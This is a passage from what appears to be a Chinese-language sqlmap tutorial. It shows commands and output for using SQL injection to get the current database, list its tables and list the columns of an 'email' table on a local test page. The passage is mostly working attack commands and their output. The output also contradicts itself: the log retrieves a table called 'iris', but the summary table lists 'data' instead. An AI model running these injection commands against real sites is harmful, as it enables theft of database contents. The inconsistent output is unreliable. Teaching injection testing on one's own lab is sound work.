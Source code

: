 ```
C:\Users\asus> sqlmap -u http://localhost/sql.php?id= -p id --current-db

...

[12:10:44] [INFO] fetching current database
[12:10:54] [INFO] retrieved: test
current database:    'test'
[12:10:54] [INFO] fetched data logged to text files under 'C:\Users\asus\.sqlmap\output\localhost'

[*] shutting down at 12:10:54
```

### 获取表名

`-D`用于指定数据库名称，如果未指定则获取所有数据库下的表名。`--tables`用于获取表名。

```
C:\Users\asus> sqlmap -u http://localhost/sql.php?id= -p id -D test --tables

...

[12:13:25] [INFO] fetching tables for database: 'test'
[12:13:28] [INFO] the SQL query used returns 7 entries
[12:13:30] [INFO] retrieved: email
[12:13:32] [INFO] retrieved: history
[12:13:34] [INFO] retrieved: iris
[12:13:36] [INFO] retrieved: message
[12:13:38] [INFO] retrieved: result
[12:13:40] [INFO] retrieved: sqlinj
[12:13:42] [INFO] retrieved: test_table
Database: test
[7 tables]
+------------+
| email      |
| history    |
| data       |
| message    |
| result     |
| sqlinj     |
| test_table |
+------------+

[12:13:42] [INFO] fetched data logged to text files under 'C:\Users\asus\.sqlmap\output\localhost'

[*] shutting down at 12:13:42
```

### 获取列名

`-T`用于指定表名，`--columns`用于获取列名。

```
C:\Users\asus> sqlmap -u http://localhost/sql.php?id= -p id -D test -T email --columns

... [12:15:02] [INFO] fetching columns for table 'email' in database 'test'
[12:15:04] [INFO] the SQL query used returns 2 entries
[12:15:06] [INFO] retrieved: userid
[12:15:08] [INFO] retrieved: varchar(16)
[12:15:11] [INFO] retrieved: email
[12:15:14] [INFO] retrieved: varchar(32)
Database: test
Table: email
[2 columns]
+--------+-------------+
| Column | Type        |
```